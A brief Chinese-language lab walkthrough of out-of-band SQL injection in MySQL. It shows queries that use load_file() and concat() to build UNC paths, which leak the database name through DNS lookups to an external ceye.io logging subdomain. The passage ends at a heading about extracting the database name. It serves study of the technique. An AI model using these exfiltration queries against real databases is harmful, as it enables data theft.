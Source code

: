 



#### OOB 注入实战

- 连接数据库，测试
  - mysql -h 192.168.1.102 -u root -p root
  - use mysql;
  - select database();
  - `select concat('\\\\',(select database()), '.fehmp3.ceye.io');`
    - 此时可以拼接处整个 UNC 的访问路径，\\mysql.fehmp3.ceye.io
  - 测试为什么使用四个 \，分别输入一个\，两个\
    - `select concat('\\\\',(select database()), '.fehmp3.ceye.io\123');`
    - `select concat('\\\\',(select database()), '.fehmp3.ceye.io\\123');`
- 使用 load_file 测试是否进行 DNS 访问
  - 输入，`select load_file(concat('\\\\',(select database()), '.fehmp3.ceye.io'));`
  - 此时到，http://ceye.io/records/dns 中，查看 DNS Query，刷新 Reload 可以看到有访问记录，在 name 栏目看到对应的数据库名字是 mysql
  - load_file 函数除了能够读取本机文件还可以通过 UNC 路径读取远程机器上的文件 
- SQL 注入 获取数据库名
